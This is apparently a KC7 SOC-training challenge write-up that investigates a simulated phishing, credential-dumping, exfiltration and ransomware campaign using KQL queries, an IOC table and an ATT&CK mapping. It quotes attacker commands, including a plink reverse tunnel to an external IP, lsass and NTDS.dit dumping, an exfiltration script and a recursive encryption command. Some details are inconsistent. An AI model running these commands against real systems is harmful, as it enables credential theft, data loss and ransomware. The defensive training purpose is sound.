





# World Domination Nation

A KC7 SOC analyst training challenge involving threat hunting, incident response, and KQL-based log analysis to investigate a multi-stage ransomware and data exfiltration campaign.


*Discovery of backdoor domain admin account cacapley_domain_admin created by the attacker for persistence.*



*Analysis shows attacker tool connected to external IP address 81.192.242.254, revealing command and control infrastructure.*



*Investigation reveals the first alert was associated with host QU09-DESKTOP, identifying the initial compromised endpoint.*



*Initial alert timeline showing the first security alert was reported on 2023-06-05T13:16:37Z, establishing the attack timeline.*



*Query results showing employee data including names, IP addresses, email addresses, and usernames from wdnconsulting.com domain, establishing the baseline of legitimate users.*


  

---

## Challenge Overview

| **Attribute**       | **Details**                                                                 |
|---------------------|-----------------------------------------------------------------------------|
| **Challenge Name**  | World Domination Nation                                                     |
| **Author**          | David Brown                                                                 |
| **Platform**        | KC7 (kc7001.eastus.DominationNation)                                       |
| **Category**        | Threat Hunting / SOC Analysis / Incident Response                           |
| **Difficulty**      | Medium                                                                      |
| **Tools Used**      | KQL (Kusto Query Language), CyberChef, Azure Data Explorer                  |
| **Target/Box**      | WDN Consulting Active Directory Environment (1,234 employees)               |

**Scenario:**  
You are a Junior SOC Analyst at WDN Consulting, defending against a sophisticated multi-stage attack. The adversary conducted password spraying, credential dumping, lateral movement via SSH tunnels, NTDS.dit theft, group policy abuse, and ultimately ransomware deployment with data exfiltration targeting high-value employees.

---

## Attack Timeline

| **Date/Time**            | **Event**                                                                                   |
|--------------------------|---------------------------------------------------------------------------------------------|
| 2023-06-05 12:59:06Z     | First phishing email sent from freedom@hotmail[.]com                                       |
| 2023-06-05 13:09:30      | Victim clicked malicious link, downloaded HaveYouHeardAboutDogeCoin.docx                   |
| 2023-06-05 13:09:46      | File created: HaveYouHeardAboutDogeCoin.docx (SHA256: a8145d4fd1534976e060cf8d0e4e206cda61d53f3d3c7f8bb29874532fef8d72) |
| 2023-06-05 13:10:22      | Malware deployed: freebitcoin[.]exe (SHA256: 0e7e0e888f22b5cc83ce5f2560f9f331d89b8e02875e98ace822e074f2ee486b) |
| 2023-06-05 13:16:37Z     | First alert: suspicious file detected on QU09-DESKTOP                                       |
| 2023-06-05 14:14:41      | SSH reverse tunnel established via plink[.]exe to 81.192.242[.]254                           |
| 2023-06-09 12:03:56Z     | First successful password spray: user mibohringer compromised                              |
| 2023-06-09 12:08:47–12:52:25 | 20 IPs attempted 15 passwords across 316 accounts; 12 accounts compromised          |
| 2023-06-12 14:12:32      | Discovery command executed: whoami on JI1L-MACHINE                                         |
| 2023-06-30 12:24:29Z     | Credential dumping: procdump[.]exe used to dump lsass[.]exe on O68K-MACHINE                    |
| 2023-07-17 16:00:11      | Domain admin (cacapley_domain_admin) logged into DOMAIN_CONTROLLER_01                     |
| 2023-07-17 16:21:34      | NTDS.dit dumped: ntdsutil "ac i ntds "ifm" "create full C:\Windows\Temp\Ntds_dit" q q     |
| 2023-07-17 16:59:54      | Directory created: C:\Windows\Temp\Ntds_dit                                                |
| 2023-07-17 16:03:40Z     | Group Policy update (gpupdate /force) pushed to 1,233 hosts                                |
| 2023-07-19 12:57:20      | Base64-encoded PowerShell exfiltration script executed                                     |
| 2023-08-02 11:58:16Z     | Last phishing email sent (total 242 employees targeted)                                    |
| 2023-08-10 16:20:55Z     | Windows Event Log service stopped: net stop eventlog /y                                    |
| 2023-08-10 16:41:47      | Task Manager disabled via registry modification                                            |
| 2023-08-10 16:57:55      | RDP enabled: sc config TermService start= auto                                             |
| 2023-08-10 17:06:59Z     | Ransomware encryption: PowerShell script recursively encrypted C:\                        |
| 2023-08-10 16:33:25Z     | Ransom note deployed: GIVE_US_YOUR_BITCOIN.txt on 80 hosts                                 |

---

## Solution Walkthrough

### Step 1 — Environment Reconnaissance

**Objective:** Familiarize with the data sources and identify baseline employee count.

```kql
Employees
| count
// Result: 1234 employees
```

**Key findings:**
- **Total employees:** 1,234
- **Company domain:** wdnconsulting[.]com
- **Data tables available:** Employees, Email, OutboundNetworkEvents, PassiveDns, SecurityAlerts, FileCreationEvents, ProcessEvents, AuthenticationEvents

---

### Step 2 — Initial Alert Triage

**Objective:** Investigate security alerts for suspicious file freebitcoin[.]exe.

```kql
SecurityAlerts
| where description contains "freebitcoin.exe"
```

**Key findings:**
- **Alert count:** 9 high-severity alerts
- **First alert:** 2023-06-05T13:16:37Z on QU09-DESKTOP
- **Affected hosts:** 9 distinct machines across June–July 2023
- **Owner of first compromised host:** James Reinhart (jareinhart), IP 10.10.4[.]70

---

### Step 3 — Process Execution Analysis

**Objective:** Identify reconnaissance and tunneling activity on compromised host.

```kql
ProcessEvents
| where hostname == "QU09-DESKTOP"
| where timestamp >= datetime(2023-06-05)
| where process_commandline has_any ("reg", "ipconfig", "plink")
```

**Key findings:**
- **Registry enumeration:** `reg query "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Uninstall" /s`
- **Network reconnaissance:** `ipconfig /all`
- **SSH tunnel established:** `plink.exe -N -T -R 0.0.0.0:1251:127.0.0.1:3389 81.192.242.254 -P 22 -l bitcoinminer -pw Crypto$123 -no-antispoof`
  - Exposed RDP (port 3389) to external IP 81.192.242[.]254

---

### Step 4 — Phishing Campaign Analysis

**Objective:** Trace initial access vector and identify attacker infrastructure.

```kql
Email
| where link == "http://forex-monero.com/files/HaveYouHeardAboutDogeCoin.docx"
```

**Key findings:**
- **Sender:** freedom@hotmail[.]com
- **Recipient:** james_reinhart@wdnconsulting[.]com
- **Subject:** [EXTERNAL] [IMPORTANT] High-Priority Message: Secure Your Bitcoin Holdings.
- **Verdict:** CLEAN (bypassed email filters)
- **Malicious URL:** hxxp://forex-monero[.]com/files/HaveYouHeardAboutDogeCoin.docx

```kql
Email
| where sender has_any ("moon.doge@qq.com","freedom@hotmail.com","profit.podcast@hotmail.com","profitprofit@protonmail.com","podcastprofit@verizon.com")
| extend parsed = parse_url(tostring(link))
| extend domain = tostring(parsed["Host"])
| summarize count() by domain
| sort by count_ desc
// Result: bro-monero.com used 39 times (most frequent)
```

**Key findings:**
- **Total targeted employees:** 242
- **Phishing sender accounts:** 5 (across hotmail, protonmail, qq, verizon)
- **Malicious domains used:** 5 (bro-monero[.]com, crypto-coin[.]org, brobit[.]org, forex-monero[.]com, cryptocoin[.]org)
- **Most used subject line:** [EXTERNAL] [IMPORTANT] High-Priority Message: Secure Your Bitcoin Holdings (14 recipients)

---

### Step 5 — Password Spray Attack Investigation

**Objective:** Identify compromised accounts from password spray campaign.

```kql
AuthenticationEvents
| where user_agent contains "Firefox/69.0"
| where result contains "success"
| sort by timestamp asc
// Result: First compromised user: mibohringer at 2023-06-09T12:03:56Z
```

**Key findings:**
- **Attacker user-agent:** Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:69.0) Gecko/20100101 Firefox/69.0
- **Accounts targeted:** 316
- **Accounts compromised:** 12
- **Passwords attempted:** 15 distinct hashes
- **Attack IPs:** 20 distinct source IPs
- **Successful logins:** 0 against Robert Russell; 12 other users compromised
- **First victim:** mibohringer (password hash: e8cc66766e9158aa4f442b05447ecadc)

---

### Step 6 — Credential Dumping Discovery

**Objective:** Identify LSASS memory dumping activity.

```kql
ProcessEvents
| where hostname == "Q68K-MACHINE"
| where process_commandline contains "dump"
// Result: procdump.exe used to dump lsass.exe
```

**Key findings:**
- **Tool used:** procdump[.]exe (Sysinternals)
- **Command:** `procdump.exe -accepteula -r -ma lsass.exe lsass.dmp`
- **Victim:** caanderson (Carole Anderson, Life Hacker role)
- **Process hash:** fbb62c5a99cfb65e137a33a86e239197cec5edf3bf68be1fc518cd6627fe57f4
- **Total hosts with credential dumps:** 61

---

### Step 7 — Privileged Account Compromise

**Objective:** Track lateral movement using stolen credentials.

```kql
AuthenticationEvents
| where username == "lifehack_local_admin"
| where result contains "success"
| distinct hostname
// Result: 200 hosts compromised
```

```kql
let host_dump =
ProcessEvents
| where process_commandline contains "procdump.exe"
| distinct hostname;
AuthenticationEvents
| where hostname in (host_dump)
| where username contains "domain"
// Result: Domain admin cacapley_domain_admin accessed TQTM-DESKTOP
```

**Key findings:**
- **Local admin accounts compromised:** 10
- **Hosts accessed by lifehack_local_admin:** 200
- **Domain admin compromised:** cacapley_domain_admin (password hash: 580d40cd0728a28802e64aa7d90df61b)
- **Critical system accessed:** DOMAIN_CONTROLLER_01 (IP 10.10.3[.]243)

---

### Step 8 — NTDS.dit Extraction

**Objective:** Document Active Directory credential theft.

```kql
ProcessEvents
| where hostname == "DOMAIN_CONTROLLER_01"
| where process_commandline contains "ntdsutil"
```

**Key findings:**
- **Command:** `ntdsutil "ac i ntds "ifm" "create full C:\Windows\Temp\Ntds_dit" q q`
- **Staging directory:** C:\Windows\Temp\Ntds_dit
- **Technique:** IFM (Install From Media) backup to extract NTDS.dit and SYSTEM registry hive
- **Executed by:** cacapley_domain_admin at 2023-07-17T16:21:34Z

---

### Step 9 — Group Policy Abuse for Malware Distribution

**Objective:** Identify mass deployment mechanism.

```kql
ProcessEvents
| where process_commandline contains "gpupdate /force"
| distinct hostname
| count
// Result: 1233 hosts
```

**Key findings:**
- **Command pushed:** `gpupdate /force`
- **Affected hosts:** 1,233 (entire organization)
- **CEO host affected:** ODWU-LAPTOP (user: temartin, Tennisha Martin)
- **Execution time on CEO host:** 2023-07-17T16:03:40Z

---

### Step 10 — Data Exfiltration Script Analysis

**Objective:** Decode and analyze exfiltration script.

```kql
ProcessEvents
| where hostname == "ODWU-LAPTOP"
| where timestamp >= datetime(2023-07-17)
| where process_name == "powershell.exe"
// Result: Base64-encoded command found
```

**Encoded command:**
```
SW52b2tlLVdtaU1ldGhvZCAtQ29t...
```

**Decoded script (CyberChef):**
```powershell
$sourcePath = 'C:\Users\Desktop\temartin\exfil'
$destinationURL = 'http://hire.xyz/exfil/'

$files = Get-ChildItem -Path $sourcePath -File -Recurse

foreach ($file in $files) {
    $filePath = $file.FullName
    $destination = $destinationURL + $file.Name
    # Upload logic
}
```

**Key findings:**
- **Encoding:** Base64
- **Exfiltration destination:** hxxp://hire[.]xyz/exfil/
- **Source path:** C:\Users\Desktop\temartin\exfil\

```kql
FileCreationEvents
| where path contains @"\exfil\"
// Result: 12 hosts had STOLEN_FILES.zip created
```

**Key findings:**
- **Exfiltrated file:** STOLEN_FILES.zip (SHA256: fe4bda7bd7252bcae343788e21ece59ac308956666e5d03be83e355aa4b49bbd)
- **Hosts affected:** 12
- **Targeted roles:** 3 (CEO, Chief Strategy Officer, Director of Operations)
- **Directors of Operations targeted:** 10

---

### Step 11 — Ransomware Deployment Analysis

**Objective:** Document defense evasion and ransomware execution.

```kql
ProcessEvents
| where hostname == "KIHE-MACHINE"
| where timestamp >= datetime(2023-08-10T16:20:55.000Z)
| project timestamp, process_commandline
```

**Key findings:**

**Defense evasion:**
- **Event log disabled:** `net stop eventlog /y` (2023-08-10T16:20:55Z)
- **Task Manager disabled:** `reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v DisableTaskMgr /t REG_DWORD /d 1 /f`
- **RDP enabled:** `sc config TermService start= auto`

**Encryption command:**
```powershell
powershell.exe -c "Get-ChildItem C:\ -File -Recurse | Foreach-Object { $_.FullName } | ForEach-Object { Encrypt-File $_ }"
```

**Ransom note:**
```kql
FileCreationEvents
| where path contains "GIVE_US_YOUR_BITCOIN.txt"
| distinct hostname
// Result: 80 hosts affected
```

**Key findings:**
- **Ransom note:** GIVE_US_YOUR_BITCOIN.txt (SHA256: 1f9d90d4a6145cfc4061a5a19004f951c2e2e5fb57ce69ccf8e516f524e2e669)
- **Affected hosts:** 80
- **Affected employee roles:** 9
- **Most affected role:** Domination Minion (15 employees)

---

## IOC Table

| **Type**       | **Indicator**                                                                                      | **Context**                                    | **Threat Actor** |
|----------------|----------------------------------------------------------------------------------------------------|------------------------------------------------|------------------|
| Email          | freedom[@]hotmail[.]com                                                                           | Phishing sender                                | Unknown          |
| Email          | moon.doge[@]qq[.]com                                                                              | Phishing sender                                | Unknown          |
| Email          | profit.podcast[@]hotmail[.]com                                                                    | Phishing sender                                | Unknown          |
| Email          | profitprofit[@]protonmail[.]com                                                                   | Phishing sender                                | Unknown          |
| Email          | podcastprofit[@]verizon[.]com                                                                     | Phishing sender                                | Unknown          |
| Domain         | bro-monero[.]com                                                                                  | Phishing/malware delivery (39 emails)          | Unknown          |
| Domain         | forex-monero[.]com                                                                                | Phishing/malware delivery                      | Unknown          |
| Domain         | hire[.]xyz                                                                                        | Data exfiltration destination                  | Unknown          |
| URL            | hxxp://forex-monero[.]com/files/HaveYouHeardAboutDogeCoin.docx                                   | Malicious document download                    | Unknown          |
| IPv4           | 81.192.242[.]254                                                                                  | C2 server for SSH tunnel                       | Unknown          |
| IPv4           | 135.55.0[.]219                                                                                    | Hosted 23 actor domains                        | Unknown          |
| IPv4           | 193.46.203[.]153                                                                                  | SSH tunnel destination (9 hosts)               | Unknown          |
| IPv4           | 189.208.204[.]159                                                                                 | SSH tunnel destination                         | Unknown          |
| SHA256         | a8145d4fd1534976e060cf8d0e4e206cda61d53f3d3c7f8bb29874532fef8d72                                 | HaveYouHeardAboutDogeCoin.docx (malicious)     | Unknown          |
| SHA256         | 0e7e0e888f22b5cc83ce5f2560f9f331d89b8e02875e98ace822e074f2ee486b                                 | freebitcoin[.]exe (malware)                      | Unknown          |
| SHA256         | fbb62c5a99cfb65e137a33a86e239197cec5edf3bf68be1fc518cd6627fe57f4                                 | procdump[.]exe (LOLBin)                          | Unknown          |
| SHA256         | 1f9d90d4a6145cfc4061a5a19004f951c2e2e5fb57ce69ccf8e516f524e2e669                                 | GIVE_US_YOUR_BITCOIN.txt (ransom note)         | Unknown          |
| SHA256         | fe4bda7bd7252bcae343788e21ece59ac308956666e5d03be83e355aa4b49bbd                                 | STOLEN_FILES.zip (exfiltrated data)            | Unknown          |
| MD5 (password) | e8cc66766e9158aa4f442b05447ecadc                                                                  | Password spray victim mibohringer              | Unknown          |
| MD5 (password) | 580d40cd0728a28802e64aa7d90df61b                                                                  | Domain admin cacapley_domain_admin             | Unknown          |
| User-Agent     | Mozilla/5[.]0 (Macintosh; Intel Mac OS X 10.14; rv:69.0) Gecko/20100101 Firefox/69.0             | Password spray attack signature                | Unknown          |

---

## MITRE ATT&CK Mapping

| **Tactic**              | **Technique ID** | **Technique Name**                              | **Evidence**                                                                                   |
|-------------------------|------------------|-------------------------------------------------|-----------------------------------------------------------------------------------------------|
| Initial Access          | T1566.002        | Phishing: Spearphishing Link                   | Phishing emails with cryptocurrency themes; 242 employees targeted                            |
| Execution               | T1059.001        | Command and Scripting Interpreter: PowerShell  | Base64-encoded PowerShell scripts for exfiltration and encryption                             |
| Persistence             | T1053.005        | Scheduled Task/Job: Scheduled Task             | Modified TermService startup to auto via sc config                                            |
| Defense Evasion         | T1070.001        | Indicator Removal: Clear Windows Event Logs    | net stop eventlog /y to disable logging                                                       |
| Defense Evasion         | T1112            | Modify Registry                                | Disabled Task Manager via HKLM registry modification                                          |
| Defense Evasion         | T1027            | Obfuscated Files or Information                | Base64-encoded PowerShell commands                                                            |
| Credential Access       | T1110.003        | Brute Force: Password Spraying                 | 316 accounts targeted with 15 passwords; 12 compromised                                       |
| Credential Access       | T1003.001        | OS Credential Dumping: LSASS Memory            | procdump[.]exe used to dump lsass[.]exe on 61 hosts                                               |
| Credential Access       | T1003.003        | OS Credential Dumping: NTDS                    | ntdsutil used to extract NTDS.dit from domain controller                                      |
| Discovery               | T1087            | Account Discovery                              | net user, whoami commands executed                                                            |
| Discovery               | T1016            | System Network Configuration Discovery         | ipconfig /all executed                                                                        |
| Lateral Movement        | T1021.001        | Remote Services: Remote Desktop Protocol       | RDP used by domain admin to access DOMAIN_CONTROLLER_01                                       |
| Collection              | T1560.001        | Archive Collected Data: Archive via Utility    | STOLEN_FILES.zip created via 7zip[.]exe                                                         |
| Command and Control     | T1572            | Protocol Tunneling                             | plink[.]exe used to create SSH reverse tunnels to 81.192.242[.]254                              |
| Exfiltration            | T1041            | Exfiltration Over C2 Channel                   | Data uploaded to hxxp://hire[.]xyz/exfil/ via PowerShell script                               |
| Impact                  | T1486            | Data Encrypted for Impact                      | Recursive PowerShell encryption script targeted C:\ on 80 hosts; ransomware deployment        |
| Impact                  T1531            | Account Access Removal                         | Disabled Task Manager and event logs to hinder response                                       |

---

## Tools Used

- **KQL (Kusto Query Language)** — Primary query language for log analysis in Azure Data Explorer (KC7 platform)
- **CyberChef** — Decoded base64-encoded PowerShell exfiltration script
- **plink[.]exe (PuTTY Link)** — Adversary tool for SSH reverse tunneling
- **procdump[.]exe (Sysinternals)** — Living-off-the-land binary used for LSASS credential dumping
- **ntdsutil** — Microsoft utility abused to extract NTDS.dit Active Directory database
- **7zip[.]exe** — Used to compress exfiltrated data

---

## Key Takeaways

1. **Multi-stage attack lifecycle** — This investigation demonstrates a full kill chain from initial phishing through data exfiltration and ransomware deployment, requiring correlation across multiple data sources (Email, ProcessEvents, FileCreationEvents, AuthenticationEvents).

2. **Password spraying bypassed traditional defenses** — The adversary successfully compromised 12 accounts by distributing 15 password attempts across 316 accounts from 20 IPs, staying below account lockout thresholds and evading brute-force detection.

3. **Living-off-the-land techniques** — Legitimate Microsoft tools (procdump[.]exe, ntdsutil, plink[.]exe) were weaponized for credential dumping and tunneling, highlighting the importance of monitoring LOLBin execution patterns rather than relying solely on signature-based detection.

4. **Domain compromise enabled organization-wide impact** — Theft of the NTDS.dit database and compromise of domain admin credentials allowed the attacker to push malicious group policy updates to 1,233 hosts, demonstrating the criticality of Tier 0 asset protection.

5. **Email filtering gaps** — Phishing emails marked as "CLEAN" bypassed security controls; consider implementing additional link analysis, sandboxing, and user-agent anomaly detection to catch socially-engineered threats targeting cryptocurrency themes.

6. **Detection opportunities exist at every stage** — Anomalous user-agents, SSH tunneling from unexpected processes, NTDS.dit staging directories, base64-encoded PowerShell, and mass gpupdate execution all provided detection signals that could trigger high-fidelity alerts.

---

## References

- [MITRE ATT&CK T1566.002 - Phishing: Spearphishing Link](https://attack.mitre.org/techniques/T1566/002/)
- [MITRE ATT&CK T1003.001 - LSASS Memory](https://attack.mitre.org/techniques/T1003/001/)
- [MITRE ATT&CK T1003.003 - NTDS](https://attack.mitre.org/techniques/T1003/003/)
- [MITRE ATT&CK T1572 - Protocol Tunneling](https://attack.mitre.org/techniques/T1572/)
- [MITRE ATT&CK T1486 - Data Encrypted for Impact](https://attack.mitre.org/techniques/T1486/)
- [Microsoft Sysinternals - ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)
- [PuTTY Link (plink) Documentation](hxxps://www.chiark.greenend[.]org[.]uk/~sgtatham/putty/docs.html)
- [KC7 Platform](hxxps://kc7cyber[.]com/)
- [NIST SP 800-61 Rev. 2 - Computer Security Incident Handling Guide](https://csrc.nist.gov/publications/detail/sp/800-61/rev-2/final)

---

*Author: David Brown | Platform: KC7 | Date: 2023-08-10*